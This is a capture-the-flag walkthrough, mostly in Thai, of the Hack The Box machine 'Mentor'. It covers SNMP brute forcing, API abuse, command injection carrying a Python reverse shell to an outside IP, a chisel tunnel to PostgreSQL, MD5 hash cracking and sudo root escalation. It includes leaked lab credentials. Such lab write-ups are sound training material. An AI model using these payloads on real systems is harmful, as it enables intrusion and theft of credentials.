# Recon

```bash
sudo ../Tools/scan.sh 10.10.11.193
[sudo] password for kali: 
[*] Running rustscan...
[*] Running nmap on ports: 22,80
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-26 22:10 EDT
Nmap scan report for 10.10.11.193
Host is up (0.059s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c7:3b:fc:3c:f9:ce:ee:8b:48:18:d5:d1:af:8e:c2:bb (ECDSA)
|_  256 44:40:08:4c:0e:cb:d4:f1:8e:7e:ed:a8:5c:68:a4:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://mentorquotes.htb/
Service Info: Host: mentorquotes.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.03 seconds

```
## API Fuzzing 
```bash
ffuf -u http://10.10.11.193 -H "Host: FUZZ.mentorquotes.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fw 18 -mc all
```
## API Enum
```bash
feroxbuster -u http://api.mentorquotes.htb --no-recursion --methods GET,POST
```

หากเราตรวจสอบเข้าไปที่ /admin จะพบว่ามี /check กับ /backup อยู่ในนั้นด้วย 






ข้อมูลข้างต้นจาก API ทำให้เราทราบว่ามีการเรียกใช้งารผ่าน API โดยมีชื่อผู้ใช้ james ซึ่งหากสำรวจจะยังไม่พบอะไรที่ไปต่อได้ 


## SNMP enum

```bash
snmpwalk -v2c -c public 10.10.11.193
./snmpbrute.py -t 10.10.11.193
```


จากข้อมูลด้านบนทำให้เราเห็น community string อีกตัวคือ "internal" ซึ่งเราสามารถใช้ snmp-walk ต่อได้


```bash
time snmpwalk -v2c -c internal 10.10.11.193
time snmpbulkwalk -v2c -c internal 10.10.11.193 ## ไวกว่า 
```



```credential
james:kj23sadkj123as0-d213
```

จากนั้นทดสอบเข้าด้วยบัญชีผู้ใช้ที่ได้ ตามภาพด้านล่าง จะพบว่าสามารถเข้าใช้งานได้ โดยระบบได้ตอบกลับมาเป็น jwt token 


ทดสอบใส่ jwt token ไปที่ /users เพื่อตรวจสอบ users ภายในระบบ จะพบว่ามี 2 users 

เราสามารถตรวจสอบ users ได้โดยใส่ user id ของแต่ละคน


จากนั้นทดสอบการทำงานของ /quotes/ เราจะเริ่มได้ข้อมูลของบทความต่างๆ 



หากทดสอบหน้า admin เราจะไม่สามารถเข้าถึงได้ อีกทั้งใน Swagger doc ยังไม่มีการเขียนไว้



ทดสอบ POST ไปที่ /admin/backup จะพบว่ามีการตอบกลับมา

โดยจากข้อมูลได้ระบุว่าให้เราใส่ body ไปด้วย (path) โดยหากทดสอบใส่ parameter เข้าไปจะพบว่ามีการตอบกลับมาว่า Done



## Command Injection 
ทดสอบ Command Injection ไปในนั้น 


ฝั่ง kali linux จะทำการรับด้วย tcpdump 
```bash
sudo tcpdump -ni tun0 icmp
```



## Shell as svc 

```http
{"path": ";python -c 'import os,pty,socket;s=socket.socket();s.connect((\"10.10.14.34\",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")';"}
```



## Chisel Tunnel 

เราจำเป็นจะต้องสร้าง tunnel สำหรับเข้าไปที่ postgresql 

```bash
# Attacker 
chisel server -p 8000 --reverse
# Target 
./chisel_linx64 client 10.10.14.34:8000 R:5432:172.22.0.1:5432
```

## Connect to DB

```bash
psql -h 127.0.0.1 -p 5432 -U postgres
# Password: postgres 
```


```sql
\list
\connect mentorquotes_db 
\dt 

mentorquotes_db=# \dt
          List of relations
 Schema |   Name   | Type  |  Owner   
--------+----------+-------+----------
 public | cmd_exec | table | postgres
 public | quotes   | table | postgres
 public | users    | table | postgres
(3 rows)

mentorquotes_db=# select * from cmd_exec;
                               cmd_output                               
------------------------------------------------------------------------
 uid=999(postgres) gid=999(postgres) groups=999(postgres),101(ssl-cert)
(1 row)

mentorquotes_db=# select * from users;
 id |         email          |  username   |             password             
----+------------------------+-------------+----------------------------------
  1 | james@mentorquotes.htb | james       | 7ccdcd8c05b59add9c198d492b36a503
  2 | svc@mentorquotes.htb   | service_acc | 53f22d0dfa10dce7e29cd31f4f953fd8
(2 rows)

mentorquotes_db=# 

```

## MD5 Crack 




svc:123meunomeeivani

## Shell as svc 

```bash
ssh svc@10.10.11.193
```

## SNMP config Enum 

```bash
svc@mentor:/etc/snmp$ cat snmpd.conf 
includeDir /etc/snmp/snmpd.conf.d


createUser bootstrap MD5 SuperSecurePassword123__ DES
rouser bootstrap priv

com2sec AllUser default internal
group AllGroup v2c AllUser
#view SystemView included .1.3.6.1.2.1.1
view SystemView included .1.3.6.1.2.1.25.1.1
view AllView included .1
access AllGroup "" any noauth exact AllView none none
```

เราสามารถนำ credential login ด้วย james ได้ และหาก sudo -l ก้อจะเห็นได้ว่าสามารถใช้ /bin/sh ด้วยสิทธิ root ได้เลย 


# PWNED 